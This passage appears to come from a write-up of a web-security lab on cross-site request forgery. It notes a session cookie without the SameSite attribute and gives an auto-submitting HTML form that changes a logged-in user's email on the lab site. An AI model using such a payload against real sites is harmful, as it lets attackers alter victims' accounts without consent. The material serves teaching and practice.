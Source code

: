 ```
Te: trailers
Connection: close

email=hey%40normal-user.net
```

As a login user we have a session token. `SameSite` attribute is not being used!

This is the template that i'll use for this lab. It's a simple form that changes the email to something else.

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything@web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```

![picture 3](/assets/images/d4ff9f92912b235b4c55071be1df1ad0672d68ba0620858e6b7c35da748d7d62.png)  
